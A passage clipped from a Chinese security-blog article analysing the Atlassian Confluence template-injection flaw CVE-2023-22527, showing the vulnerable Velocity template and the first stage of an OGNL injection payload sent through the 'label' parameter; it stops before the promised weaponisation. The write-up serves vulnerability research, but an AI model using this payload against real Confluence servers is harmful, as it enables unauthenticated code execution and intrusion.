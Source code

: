 ```yaml
---
title: Atlassian Confluence CVE-2023-22527 分析及武器化实现 - 先知社区
url: https://xz.aliyun.com/t/13907
clipped_at: 2024-03-20 09:44:29
category: default
tags: 
 - xz.aliyun.com
---
```



# Atlassian Confluence CVE-2023-22527 分析及武器化实现 - 先知社区

# 0-0 参考文献

[Atlassian Confluence 模板注入代码执行漏洞（CVE-2023-22527） - 先知社区](https://xz.aliyun.com/t/13351?time__1311=mqmxnDBG0QIxcDBqDTeeqBIoK7uktlliiGoD&alichlgref=https%3A%2F%2Fwww.google.com%2F)  
[Bypassing OGNL sandboxes for fun and charities](https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/?ref=blog.projectdiscovery.io#strutsutil:~:text=(PageContextImpl)\-,For%20Velocity%3A,-.KEY\_velocity.struts2.context)

# 0-1 简要分析

漏洞点源自于 `/template/aui/text-inline.vm` 路由的一个未授权访问，这是一个 velocity 模板文件，该模板文件内容如下

```plain
#set( $labelValue = $stack.findValue("getText('$parameters.label')") )
#if( !$labelValue )
    #set( $labelValue = $parameters.label )
#end

#if (!$parameters.id)
    #set( $parameters.id = $parameters.name)
#end

<label id="${parameters.id}-label" for="$parameters.id">
$!labelValue
#if($parameters.required)
    <span class="aui-icon icon-required"></span>
    <span class="content">$parameters.required</span>
#end
</label>

#parse("/template/aui/text-include.vm")
```

漏洞点自然就在 `$stack.findValue("getText('$parameters.label')` 明显的一段 OgnlStack 的 findValue 操作，那么 label 参数就会被 ognl 解析。因此 payload 第一段为

```plain
label=aaa\u0027%2b#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})%2b\u0027
```
